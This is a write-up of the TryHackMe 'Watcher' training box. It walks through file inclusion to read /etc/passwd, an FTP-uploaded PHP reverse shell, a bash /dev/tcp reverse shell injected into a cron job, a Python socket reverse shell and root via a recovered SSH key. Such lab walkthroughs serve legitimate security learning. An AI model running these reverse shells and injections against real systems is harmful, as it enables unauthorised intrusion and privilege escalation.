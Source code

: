 ```yaml
---
layout: post
title: Watcher Write-Up
comments: true
---
```

The Watcher is a medium-difficulty box on the service TryHackMe, and this will be my first of many write-ups to come. I learned a lot from completing this box, and highly recommend any beginner-to-intermediate hackers complete it. Feel free to email me about any questions or recommendations you may have.

When approching a machine, our first step is to use `nmap` to see what is running on the server:
`nmap -sV 10.10.130.17`
When this command is run, the first thing we'll notice is the http server, and secondly you'll see the ftp server.

Let's take a look at the http server: we'll want to take a look at the website. This website looks like a blog. First, we look at the URL and see that this blog uses php to access posts - we'll come back to this later.
Next, we use `gobuster` to fuzz the directories of the machine (alternatively, dirbuster or ffuf can be used if preferred):
`gobuster dir -u 10.10.130.17 -w /usr/share/wordlists/dirb/common.txt`

After this command is run, we'll see there's a file named 'robots.txt'. When looking at `10.10.130.17/robots.txt`, we find 'flag_1' and 'secret_file_do_not_read.txt'.
Congrats, we have our first flag!

Now, lets try and open 'secret_file_do_not_read.txt'. We don't have permission to open this file, but maybe we can bypass this.
Let's open a blog post again. In the url of the posts we have:
"http://10.10.130.17/post.php?post=&lt;postname>.php".

The first thing I do when I see a php query is try to view `/etc/passwd` as a test.

"http://10.10.130.17/post.php?post=/etc/passwd"

From this, we can see the file - two users are visible: Mat and Toby.
Now that we know we can view files with this, lets open the secret file.

"http://10.10.130.17/post.php?post=secret_file_do_not_read.txt"

In this file, there is a note to Mat about ftp credentials.
When we sign into the ftp server, we'll see two things: a directory called `files`, and a file named 'flag_2.txt'

We can copy the flag to our local machine with the `get` command, and then view the flag on our local machine.

Now that we have the ability to ftp into the machine, we can spawn a reverse shell with a php script. I use this one specifically: 
[php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) 

To make this script work, we need to change the IP and port.

In this screenshot, I changed the IP to my ip address, and port to 4444.

Next: we upload the script, sign into the ftp server once again, and `cd` into the files directory. Upload the php file we just modified using 
`put <path to file on local machine>`

Once it's uploaded, we need to find where the file was saved. On the note to Mat, Will says the files are saved in `/home/ftpuser/ftp/files`. Let's go to the file we uploaded using the php URL we used to see this note.

We'll see an error in the code, which in our case is good; this shows our code is uploaded.

Next, we need to listen for the shell to spawn using `nc -lvnp 4444`

Now we see that we have a shell!
To stabilize this shell we can run:
```
/usr/bin/script -qc /bin/bash /dev/null`
control + z to put the shell in the background
stty raw -echo
fg
export TERM=xterm
```

Lets try to find our third flag:
`find / -name flag_3.txt 2>/dev/null`	

If we run 'whoami', we can see that we are www-data.

Next, lets see what commands we can run with sudo using `sudo -l`
After running this command, we can run any other command with the user Toby.
We can use this to see 'flag_4.txt' in Toby's home directory with `sudo -u toby cat /home/toby/flag_4.txt`

In the same directory, there's a file named 'note.txt'; view it with the same command as before, but with 'note.txt' as the file argument instead.
Within the file, it talks about cron jobs.

To view cron tabs, you can run `cat /etc/crontab`.

We can edit the job in /home/toby/jobs/cow.sh and add this line:
`bash -i >& /dev/tcp/10.8.98.192/4444 0>&1`
to create a reverse shell to intercept with `nc`

Once we have the shell, we can cat out 'flag_5.txt' and stabilize the shell as we did earlier.

Next, we'll run in the scripts directory with another nc session listening 
`echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.8.108.69',9898));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" > cmd.py`

Here, we can get the next flag in Will's home directory.

After some looking around with the user Will, we'll find a .b64 file in `/opt/backups/key.b64`. With this file, we can use `base64 -d key.b64 > id_rsa` and download it with `python3 -m http.server`

Finally, we can ssh `ssh -i id_rsa root@10.10.193.197`
and cat out flag_7.txt.

Congratulations, flag 7 completed!
